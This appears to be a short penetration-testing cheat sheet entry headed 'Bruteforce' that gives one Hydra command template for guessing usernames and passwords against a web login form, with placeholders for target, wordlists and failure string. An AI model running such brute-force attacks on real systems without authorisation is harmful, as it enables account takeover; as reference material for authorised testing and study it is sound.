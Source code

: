 # Bruteforce

## Login form
```
hydra <ip> -L <usernames.txt> -P <passwords.txt> -t 16 -w 30 http-post-form \
    '/<page.php>:username=^USER^&password=^PASS^:Wrong'
```

